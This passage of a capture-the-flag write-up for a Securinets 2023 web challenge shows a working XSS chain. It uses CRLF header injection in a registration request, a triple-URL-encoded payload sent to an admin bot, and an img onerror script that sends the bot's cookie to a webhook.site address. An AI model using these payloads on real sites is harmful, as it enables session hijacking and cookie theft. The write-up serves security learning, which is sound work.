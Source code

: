 **After sending the registration XSS payload to the bot and spamming the weird response time in `/helloworld` route, it worked!!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807144656.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807144719.png)

Let's go!! Now it's confirmed that we can poison the Service Worker's `scriptURL` property, and deliver our XSS payload to the bot!

**Let's modify the XSS payload to retrieve the flag from the admin bot's cookie!**
```json
{"token":"<img src=errorpls onerror=location.href='//webhook.site/26e56a2a-016e-454e-87f6-4080f4c6f444?flag='.concat(document.cookie)>"}
```

```shell
>>> xssPayload = '''{"token":"<img src=errorpls onerror=location.href='//webhook.site/26e56a2a-016e-454e-87f6-4080f4c6f444?flag='.concat(document.cookie)>"}'''
>>> len(xssPayload)
136
```

**Registration XSS payload:**
```
overwriteUserid: foobar\r\n
Content-Length: 136\r\n
\r\n
{"token":"<img src=errorpls onerror=location.href='//webhook.site/26e56a2a-016e-454e-87f6-4080f4c6f444?flag='.concat(document.cookie)>"}
```

**Triple URL encoded registration XSS payload:**
```
overwriteUserid%25253a%252520foobar%25250d%25250aContent-Length%25253a%252520136%25250d%25250a%25250d%25250a%25257b%252522token%252522%25253a%252522%25253cimg%252520src%25253derrorpls%252520onerror%25253dlocation.href%25253d'%25252f%25252fwebhook.site%25252f26e56a2a-016e-454e-87f6-4080f4c6f444%25253fflag%25253d'.concat(document.cookie)%25253e%252522%25257d
```

**Send the triple URL encoded registration XSS payload to the bot:**
```
https://escape.nzeros.me/?user=overwriteUserid%25253a%252520foobar%25250d%25250aContent-Length%25253a%252520136%25250d%25250a%25250d%25250a%25257b%252522token%252522%25253a%252522%25253cimg%252520src%25253derrorpls%252520onerror%25253dlocation.href%25253d'%25252f%25252fwebhook.site%25252f26e56a2a-016e-454e-87f6-4080f4c6f444%25253fflag%25253d'.concat(document.cookie)%25253e%252522%25257d
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807165630.png)

**Send the `/helloworld` route URL to the bot:**
```
https://escape.nzeros.me/helloworld
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807165642.png)
